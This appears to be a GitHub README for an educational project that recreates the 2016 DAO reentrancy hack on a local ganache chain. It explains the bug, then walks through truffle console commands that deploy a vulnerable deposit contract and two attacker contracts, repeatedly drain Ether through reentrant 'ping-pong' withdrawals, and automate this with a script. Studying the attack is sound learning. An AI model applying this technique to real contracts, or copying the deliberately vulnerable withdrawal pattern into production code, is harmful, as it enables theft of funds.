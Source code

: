 #Detailed run through a reentrancy bug attrack

In 2016 I remember watching the DAO contract getting drained of all its Ether. In 2018 I did the Consensus Solidity course. I understand what a re-entrancy bug is, but its always bothered me how exactly did the attacker get away with so much Ether.

My background is in Numerical programming, the first language I learnt was Fortran, then C. My general work flow was to write the numerical code I needed in C, compile it as DLL and then call it from Excel.

Why Excel, its a nice front end and it interfaced seamlessly with Reuters (shoutout to Amal).

C gave me speed, Excel gave me a relatively easy front end to program. Things like OOP, inheritance or function overloading have never been my thing. My programming style has always been to write short simple functions, that I debug by stepping through the code and literally see and watch what its doing.

The concept of Ethereum in 2015 really spoke to me, the idea that you could have these contracts/actors that could receive a message and then run some code and its not a cloud based system, and you are guaranteed that the code will run exactly as written its immutable,so the specified code cannot be changed and the Nakamoto consensus ensures that it is run correctly.

Of course you could just run the code on your own machine, but having a distributed network where you could interact with others, in a trustless way was completely revolutionary. I was and I still am convinced this will completely change the world. Given that I am an optimist, I also think it will result in a better world.

I was not too concerned about the DAO hack, to me it was early days, a fork was the obvious and correct solution. To the hacker I say, dude take long long look at yourself, being so destructive is not good for you.

So after all these years and in the midst of the DEFI craze I finally took the time to try and understand it more fully. In short its not that clever, I know that I am not exploring everything the hacker did, like optimize his(er) gas costs etc. The attacker was alerted to the presence of the bug, then all they had to do was design a way to reset it so that they could repeat the attack.

To my mind informing the Ethereum community, or more flamboyantly draining the entire DAO and yhen returning all the Ether, would have assured them fame and gratitude, the way they went about it, means they are just an anonymous destructive **"JOKER"** personality, its a pity because they clearly have skills. The nature of the DAO was that it had timelocks etc etc, which meant that the possibility of a hard fork was almost certain, so that the monetary advantage would probably be less than the fame and eternal gratitude of the entire community.

What I have done is write some code from the gound up to replicate the basics of re-entracy and the ping pong nature of the hack. To fully understand what occured. The code is not "right" for example all functions are defined as public, I am not using a real token. I am not using safe math. The withdrawl check is a joke. What I was after was the simplist version where I could actually see what was occuring.

Ethereum has a EVM(Ethereum virtual machine) which is basically a stack based machine, this link has an excellent explanation as too what these are https://igor.io/2013/08/28/stack-machines-fundamentals.html

**The rentrancy bug works like this:** 
The EVM is running a function the function has certain values on the stack and certain values in memory, it may also have stored certain values in the state, it then sends a message to another contract/actor the way Ethereum works if the receiving contract does not have a function that has been called, (its a whole complex encoding that goes on it uses the function signature the values being passed to the function and a SHA3/Kekkack hash of all of this to identify the function,function overloading is allowed), in the event that nothing triggers a fallback function is run. This will always run, as of this writing I am unsure if this only runs if Ether is sent, or if any message is sent?

Anyway at this point the function that is executing, transfers control of the stack to the other contract/actor this contract can now run anything that is allowed within the Gas allocated to it, after its finished it returns this new stack to the code in the original contract/actor, if that contract/actor makes the assumption that the called contract/actor did nothing it could be a catotrophic mistake. In the case of the DAO the attacker called the SplitDAO function  this function then sent ether to the attackers contract this caused the fallback function ( now called receive in solidity) to run, the attacker added his malicious code here. this is why to me, **this is a hack!** *The hack did not use the contract as written, he inserted his own code.* 
Simply the code the hacker inserted was too call the splitDAO function again to withdraw his ether again. 

I used to have a numerical analysis lecturer who used to say, to iterate is human to recurse is divine. You can see this is a kind of recursion, the issue with recursion is what will cause it to halt, to those familer with Excel, this is a circular reference. In Excel you can set recursion to true, this will allow circular references. but you also have to speficy a value for how many times it will run before deciding that the cells affected have converged that is are no longer changing, so after this number say 1024 it will just halt, so that it does not lock your machine doing some pointless calculation. In Ethereum from what I have read this limit is 128. If you are asking yourself why does the EVM have this at all. To be useful Ethereum must have this structure where sending a message to a contract will cause it to run some code. so unfortunately this is fundemental to the functioning of the system if you want a non trivial machine/network. 

The attacker withdrew 258 ETH each call, the malicious code seems to have been limited to 31 cycles, so I did the same. So in the following the 258 and the value of 31 are totally arbitary

First things first ganache-cli needs to be installed, secondly Truffle needs to be installed.
Clone the resposity change directory to the respository.

I used VisualCode with the solidity extension.
In a terminal window type

```ganache-cli -d -i 66```

The i is the code that identifies the network.
-d means always generate the same accounts and deploy contracts to the same address's
This is critical as nothing will work in the code unless this flag is used.
In another terminal or in the terminal window in VS type

`truffle console --network development`

This will bring up the truffle console
the file truffle-config.js has all the setting for this netwrok and the compiler being used.
Now type

`migrate reset` 

this will compile and deploy four contracts to the ganache instance
Migrations
Deposit
AttackA
AttackB

truffle has a very good debugger that is awesome at looking at whats actually going on
once a transactiuon is submitted and has been mined by ganache if you copy the transactionHash
and run debug transactionHash in the console it will bring up the debugger
in a terminal window its truffle transactionHash
If it says something about not finding the soutrce code thats because the ganache instance and truffle are out of sync.
the easiest way to resolve it is to quit the debbugger with q
quit truffle with .exit 
ctrl-c for ganache-cli
restart ganache-cli -d -i 66
restart truffle console --network development
migrate reset in truffle console
Should resolve it in most cases.

Debugger commands are as follows
b attack.sol:55 will set a breakpoint at line 55 of attack.sol
B all will remove all breakpoints
Then c will run until the breakpoint is hit
v will show local variables
:<|expression|> will show that <|expression|>
+:<|expression|> will add a watch expression. -:<|expresssion|> will remove it
? will list all watchs and breakpoints
; will show low level opcodes and the stack, I am unsure how to switch it off once it starts
h shows help
q quits it.

Now create an interaface for the contracts

```
d = await Deposit.deployed()
A = await AttackA.deployed()
B = await AttackB.deployed()
```

 Now send d some Ether
 
 ```await d.sendTransaction({from:accounts[0],value:web3.utils.toWei('15', 'ether')})
 The attack withdrew 258 ether each cycle
 
 Now send A 258 wei worth of Tokens
 `A.sendDeposit(258)`
 Check Ether balance of d address
 `await web3.utils.fromWei(await web3.eth.getBalance(d.address))`
 Should give
 '15'
 Check Ether balance of A and B
 `await web3.utils.fromWei(await web3.eth.getBalance(A.address))`
 should give 0
 `await web3.utils.fromWei(await web3.eth.getBalance(B.address))`
 should give 0
 Now call executeAttack
 `A.executeAttack(true)`
 Now withdraw the 258 wei
 `A.withDraw(258)`
 Check balance of d
 `await web3.utils.fromWei(await web3.eth.getBalance(d.address))`
 14.999999999999991486
 Now check balance of A
 `await web3.utils.fromWei(await web3.eth.getBalance(A.address))`
 0.000000000000008514
 Notice it withdrew 8514/258 = 33
 So it withdraws Once because of the initial call, then 31+1 times because the variable mutex in AttackA is set to 31 runs from 0
 So 32+1 = 33
 Now lets check Token balance of the attackA account in the deposit contract
 `(await d.getDepositBalance(A.address)).toString()`
 0
 Its zero, you can read the comment in the deposit.sol code about SAFE MATH
 Now check the token balance in contract B
 `(await d.getDepositBalance(B.address)).toString()`
 258
 So if we try and withdraw from contract A again it will revert because the Balance on deposit contract is zero
 `A.withDraw(258)`
 Generates a lot of stuff on the screen but in there is 
 reason: "Balance is zero"
 At this point the attack should halt, but wait we have a psoitive balance over at Contract B
 If we run 
 `B.executeAttack(true)`
 Then call
 `B.withDraw(258)`
 If we check the Balances again
 `(await d.getDepositBalance(B.address)).toString()`
  0
  So the B contract now has balance of zero on deposit
  While, wait for it... contract A has a balance of 258
  `(await d.getDepositBalance(A.address)).toString()`
  258
  Ether Balance on contract A is as expected unchanged
  `await web3.utils.fromWei(await web3.eth.getBalance(A.address)`
  0.000000000000008514
  While B is
  `await web3.utils.fromWei(await web3.eth.getBalance(B.address)`
  0.000000000000008514
  The deposit contract is now
  `await web3.utils.fromWei(await web3.eth.getBalance(d.address)`
    14.999999999999982972
    It was  14.999999999999991486
 14.999999999999991486 - 14.999999999999982972 = 8514
 Now we can run withdraw on contractA again and then on contractB until we run out of ether for Gas or the Deposit contract runs out of Ether
The attacker did the ping-pong about 50x from my reading.

So in short the splitDAO had a bug the update balance was in the wrong place, it updated after the Ether was sent instaed of updating and then 
sending the Ether. The attacker by using to two contracts used a ping-pong or bkeeping the ballon flying strategy, to keep the attack alive.

Repeating the steps above of course this can automated, it will drain all the Ether out of the deposit contract.

DAO.js contains a script that automates the above actions
To run first start truffle console
`migrate reset`
`d = await Deposit.deployed()`
Send some Ether to the deposit contract
`await d.sendTransaction({from:accounts[0],value:web3.utils.toWei('15', 'ether')})`
Once deposit contract has some Ether in it
`exec ./DAO.js`








 






